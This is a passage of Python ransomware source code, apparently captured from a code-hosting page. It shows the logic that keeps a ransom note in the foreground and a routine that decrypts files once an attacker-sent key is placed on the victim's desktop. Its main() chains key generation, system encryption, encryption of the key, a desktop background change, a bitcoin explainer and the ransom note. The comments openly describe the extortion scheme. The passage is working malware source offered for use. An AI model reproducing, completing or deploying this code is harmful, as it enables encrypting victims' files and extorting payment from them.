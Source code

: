 ```python
                print('Ransom note is not the top window - kill/create process again') # Debugging/Testing
                # Kill ransom note so we can open it again and make sure ransom note is in ForeGround (top of all windows)
                time.sleep(0.1)
                ransom.kill()
                # Open the ransom note
                time.sleep(0.1)
                ransom = subprocess.Popen(['notepad.exe', 'RANSOM_NOTE.txt'])
            # sleep for 10 seconds
            time.sleep(10)
            count +=1
            if count == 5:
                break


    # Decrypts system when text file with un-encrypted key in it is placed on desktop of target machine
    def put_me_on_desktop(self):
        # Loop to check file and if file it will read key and then self.key + self.cryptor will be valid for decrypting-
        # -the files
        print('started') # Debugging/Testing
        while True:
            try:
                print('trying') # Debugging/Testing
                # The ATTACKER decrypts the fernet symmetric key on their machine and then puts the un-encrypted fernet-
                # -key in this file and sends it in a email to victim. They then put this on the desktop and it will be-
                # -used to un-encrypt the system. AT NO POINT DO WE GIVE THEM THE PRIVATE ASYMMETRIC KEY etc.
                with open(f'{self.sysRoot}/Desktop/PUT_ME_ON_DESKTOP.txt', 'r') as f:
                    self.key = f.read()
                    self.crypter = Fernet(self.key)
                    # Decrpyt system once have file is found and we have cryptor with the correct key
                    self.crypt_system(encrypted=True)
                    print('decrypted') # Debugging/Testing
                    break
            except Exception as e:
                print(e) # Debugging/Testing
                pass
            time.sleep(10) # Debugging/Testing check for file on desktop ever 10 seconds
            print('Checking for PUT_ME_ON_DESKTOP.txt') # Debugging/Testing
            # Would use below code in real life etc... above 10secs is just to "show" concept
            # Sleep ~ 3 mins
            # secs = 60
            # mins = 3
            # time.sleep((mins*secs))



def main():
    # testfile = r'D:\Coding\Python\RansomWare\RansomWare_Software\testfile.png'
    rw = RansomWare()
    rw.generate_key()
    rw.crypt_system()
    rw.write_key()
    rw.encrypt_fernet_key()
    rw.change_desktop_background()
    rw.what_is_bitcion()
    rw.ransom_note()
```